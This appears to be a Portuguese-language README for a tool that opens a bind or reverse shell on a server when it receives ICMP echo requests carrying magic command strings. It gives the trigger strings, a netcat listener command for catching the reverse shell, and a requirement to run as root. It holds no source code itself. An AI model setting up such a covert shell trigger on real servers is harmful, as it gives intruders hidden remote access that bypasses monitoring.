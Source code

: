 # Descrição

Sistema que abre um shell de comando no servidor a partir da solicitação transmitida via pacotes ICMP do tipo ICMP_ECHO_REQUEST com comandos em seu payload.

## Servidor
* `icmp_active_shell.py` captura pacotes ICMP do tipo ICMP_ECHO_REQUEST e verifica se no payload tem o comando para ativar um bind shell ou reverse shell.

## Cliente
* `icmp_send_cmd.py` monta um pacote ICMP do tipo ICMP_ECHO_REQUEST, adiciona o comando no payload e envia para o servidor.

## Como usar

**servidor** 

`python icmp_active_shell.py`

**cliente** 

`python icmp_send_cmd.py [servidor] [comando]` - comandos: `-*-ias-*-` (bind shell) | `-*-iars-*-` (reverse shell)

Para um shell reverso é necessário ficar ouvindo a porta 42444 no cliente, segue esquema abaixo utilizando o netcat:

`nc -l -p 42444`

Os comandos acima deverão ser executados com o usuário root.
